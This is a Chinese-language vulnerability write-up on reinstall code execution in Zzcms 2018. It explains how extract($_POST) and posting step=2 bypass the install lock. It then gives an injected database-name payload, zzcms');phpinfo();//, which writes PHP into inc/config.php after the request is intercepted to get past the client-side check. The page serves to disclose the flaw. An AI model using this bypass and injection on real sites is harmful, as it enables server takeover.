 # Zzcms 2018 最新版重装 getshell

> 原文：[http://book.iwonder.run/0day/Zzcms/zzcms2018 最新版重装 getshell.html](http://book.iwonder.run/0day/Zzcms/zzcms2018 最新版重装 getshell.html)

## 一、漏洞简介

源码信息：Zzcms 2018

问题文件： \zzcms\install\index.php

漏洞类型：重装 getshell

站点地址：[http://www.zzcms.net/](http://www.zzcms.net/)

## 二、漏洞影响

Zzcms2018

## 三、复现过程

### 0x01 攻击分析

在文件\ zzcms \ install \ index.php 文件的第 9-10 行中$ _POST 使用了提取变量注册的方法进行变量的初始化。

```
if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
if($_GET) extract($_GET, EXTR_SKIP);
$submit = isset($_POST['submit']) ? true : false;
$step = isset($_POST['step']) ? $_POST['step'] : 1; 
```

分析代码可以知道，setp 为空的时候，初始化初始化的变量 1，然后进入到 step_1.php，有 install.lock，就不能重装，所以我们这里直接 POST step = 2 绕过

```
<?php
switch($step) {
        case '1'://协议
                include 'step_'.$step.'.php';
        break;
        case '2'://环境
                $pass = true;
                $PHP_VERSION = PHP_VERSION;
                if(version_compare($PHP_VERSION, '4.3.0', '<')) {
                        $php_pass = $pass = false;
                } else {
                        $php_pass = true;
                }
                $PHP_MYSQL = '';
                if (extension_loaded('mysqli') || extension_loaded('mysql')) {
                        $PHP_MYSQL = '支持';
                        $mysql_pass = true;
                } else {
                        $PHP_MYSQL = '不支持';
                        $mysql_pass = $pass = false;
                }
        $PHP_GD = '';
        if(function_exists('imagejpeg')) $PHP_GD .= 'jpg';
        if(function_exists('imagegif')) $PHP_GD .= ' gif';
        if(function_exists('imagepng')) $PHP_GD .= ' png';
                if($PHP_GD) {
                        $gd_pass = true;
                } else {
                        $gd_pass = false;
                }
                $PHP_URL = @get_cfg_var("allow_url_fopen");//是否支持远程 URL，采集有用
                $url_pass = $PHP_URL ? true : false;
                include 'step_'.$step.'.php';
        break;
        case '3'://查目录属性
                include 'step_'.$step.'.php';
        break;
        case '4'://建数据库
                include 'step_'.$step.'.php';
        break;
        case '5'://安装进度
                function dexit($msg) {
                        echo '<script>alert("'.$msg.'");window.history.back();</script>';
                        exit;
                }

                $conn=connect($db_host,$db_user,$db_pass,'',$db_port);
                if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
                $db_name or dexit('请填写数据库名');
                if(!select_db($db_name)) {
                        if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n 系统尝试创建失败，请通过其他方式建立数据库');
                }
                $url=str_replace("'",'',$url);
                //保存配置文件
                $fp="../inc/config.php";
                $f = fopen($fp,'r');
                $str = fread($f,filesize($fp));
                fclose($f);
                $str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
                $str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
                $str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
                $str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
                $str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
                $str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
                $str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
                $f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
                fputs($f,$str);//把替换后的内容写入文件
                fclose($f);
                //创建数据
                include 'step_'.$step.'.php';
                break;
        case '6'://安装成功
                include 'step_'.$step.'.php';
        break;
} 
```

![image](img/55717040ba7696b89e2a414b47f7a0bf.png)

```
<?php
if(@$step==3){
$token = md5(uniqid(rand(), true));    
$_SESSION['token']= $token; 
?> 
```

step_3.php 文件中有一个创建的令牌，后面创建数据库的时候验证，所以从步骤= 2，一步一步偶。

从上面的代码文中知道$ url = str_replace（“'”，“，$ url）; 把单引号替换为空了，然后的 fputs 写 INC / config.php 的配置文件中所以这里通过$ DB_NAME 来写到配置文件。

### 0×02 复漏洞现

在数据库配置页面，数据库名填写：

zzcms%27%29%3bphpinfo%28%29%3b%2f%2f 本机创建 zzcms');phpinfo();//的数据库

![image](img/b3ceb12a01dc3298bfe394f5f088617b.png)

因为本地有 JS 验证，所以先把数据库名改成 123，bp 抓到包以后在修改成 zzcms%27%29%3bphpinfo%28%29%3b%2f%2f

![image](img/897565e799d5da6e7d3b63f73dec5dea.png)

成功写入到配置文件

![image](img/122a4c6ac99f765ca981cbcbc76efa88.png)

![image](img/a5814a2192a35b6fc687c6690f6c4777.png)

![image](img/7bc79d7f90a2db7150695a4d8737c7b7.png)

